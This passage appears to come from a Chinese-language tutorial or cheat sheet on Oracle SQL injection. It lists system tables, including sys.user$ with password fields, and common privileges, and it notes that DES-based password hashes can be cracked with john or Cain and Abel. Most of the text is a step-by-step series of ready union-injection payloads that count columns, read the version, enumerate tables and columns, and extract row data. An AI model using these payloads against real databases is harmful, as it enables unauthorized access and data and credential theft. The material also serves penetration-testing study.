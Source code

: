 **6.**常用表：

```
user_tab_columns、all_tab_columns、dba_tab_columns /* 保存了表结构信息。常用字段 "table_name"、"column_name" 等。 */

user_tables、all_tables、dba_tables /* 保存了表信息。常用字段 "table_name"、"owner" 等。 */

user_users、all_users、dba_users /* 保存了用户信息。常用字段 "username"。 */

sys.user$ /* 保存了用户信息，查询需要 admin 权限。常用字段 "user"、"password" 等。 */
```

**7.**常见权限：

```
查看用户权限：select * from session_privs

CREATE_SESSION -- 默认权限，可连接数据库 + 创建 session。

SELECT ANY DICTIONARY -- 高级权限，可查看任何表、任何视图。

CREATE PROCEDURE -- 低级权限。
```

**8.**密码 hash：

Oracle 的用户密码可以使用 john 或者 cain and abel 进行破解，加密方式基于 DES，salt 为用户名。

---

### **二、Union注入**

**Step 1.**判断列数：
`' order by 3 --`

**Step 2.**判断回显位置：
`' union select null,null,null from dual --`

**Step 3.**判断每个位置的数据类型：
`' union select 'null',null,null from dual -- 每个位置加单引号，观察是否报错。`

**Step 4.**获取数据库版本信息：
`' union select null,(select banner from sys.v$version where rownum=1),null from dual --`

**Step 5.**获取表名：
`' union select null,(select table_name from user_tables where rownum=1),null from dual --`
`' union select null,(select table_name from user_tables where rownum=1 and table_name<>'table_1'),null from dual --`
**Step 6.**获取列名：
`' union select null,(select column_name from user_tab_columns where table_name='table_1' and rownum=1),null from dual --`
`' union select null,(select column_name from user_tab_columns where table_name='table_1' and column_name<>'column_1' and rownum=1),null from dual --`
**Step 7.**获取数据：
`' union select null,(select column_1，column_2，column_3 from table_1 where rownum=1),null from dual --`
